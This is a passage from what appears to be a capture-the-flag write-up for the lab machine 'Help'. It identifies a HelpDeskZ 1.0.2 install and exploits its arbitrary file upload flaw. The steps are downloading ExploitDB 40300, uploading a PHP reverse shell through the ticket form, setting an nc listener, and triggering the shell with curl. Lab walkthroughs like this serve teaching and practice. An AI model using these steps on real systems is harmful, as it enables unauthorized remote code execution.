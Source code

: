 <img width="957" height="670" alt="image" src="https://github.com/user-attachments/assets/f4784b93-44a3-46df-adaa-f660f0c377ad" />

**Key Discovery:** `/support` directory hosting HelpDeskZ application.

## Vulnerability Analysis

### HelpDeskZ Version Identification

The HelpDeskZ version was identified by accessing:
```
http://help.htb/support/readme.html
```

### Searchsploit Research

```bash
searchsploit helpdeskz
```

<img width="867" height="464" alt="image" src="https://github.com/user-attachments/assets/78ecbb67-cb20-47e6-b107-1351e2dfe9f5" />

**Identified Exploit:** HelpDeskZ 1.0.2 - Arbitrary File Upload (ExploitDB ID: 40300)

<img width="957" height="222" alt="image" src="https://github.com/user-attachments/assets/29176c88-623a-4232-b26a-60124dcb2414" />

## Exploitation

### File Upload Vulnerability

1. **Download the exploit:**
```bash
searchsploit -m 40300
```

<img width="543" height="311" alt="image" src="https://github.com/user-attachments/assets/cb68c9a9-d7cf-4a4c-b432-10a3585ef238" />

2. **Upload PHP reverse shell through the ticket submission form:**
```
http://help.htb/support/?v=submit_ticket&action=displayForm
```

<img width="1319" height="978" alt="image" src="https://github.com/user-attachments/assets/006c7997-a4ac-413d-bd66-81f0beeeaaf1" />

<img width="1364" height="441" alt="image" src="https://github.com/user-attachments/assets/99d48310-5f7a-4d8a-964a-d4fa47cd83a1" />

3. **Execute the uploaded shell:**

```bash

# Generate shell URL using the exploit
python2 40300.py http://help.htb/support/uploads/tickets/ shell.php

# Set up listener
nc -nlvp 9001

# Trigger the shell
curl http://help.htb/support/uploads/tickets/[GENERATED_HASH].php
```
